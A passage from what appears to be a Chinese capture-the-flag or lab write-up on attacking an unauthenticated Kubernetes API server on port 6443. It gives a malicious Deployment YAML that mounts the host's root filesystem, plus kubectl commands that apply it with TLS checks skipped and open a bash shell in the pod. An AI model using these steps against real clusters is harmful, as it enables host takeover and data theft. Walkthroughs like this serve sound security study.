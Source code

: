 （k8s这块实在不会，照着人家wp打的）

`k8s kubelet 10250端口未授权`，但是不符合利用条件

还有一个6443端口的Api Server未授权

![image-20240905010513335](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240905010513335.png?imageSlim)

编辑恶意yaml

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: nginx-deployment
  labels:
    app: nginx
spec:
  replicas: 1
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - name: nginx
        image: nginx:1.8
        volumeMounts:
        - mountPath: /mnt
          name: test-volume
      volumes:
      - name: test-volume
        hostPath:
          path: /
```

创建pod

```
kubectl.exe --insecure-skip-tls-verify -s https://172.22.14.37:6443/ apply -f evil.yaml
```

列出pod

```
kubectl.exe --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get pods -n default
```

![image-20240905011231329](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240905011231329.png?imageSlim)

进容器

```
kubectl.exe --insecure-skip-tls-verify -s https://172.22.14.37:6443/ exec -it nginx-deployment-864f8bfd6f-zfgqd /bin/bash
```
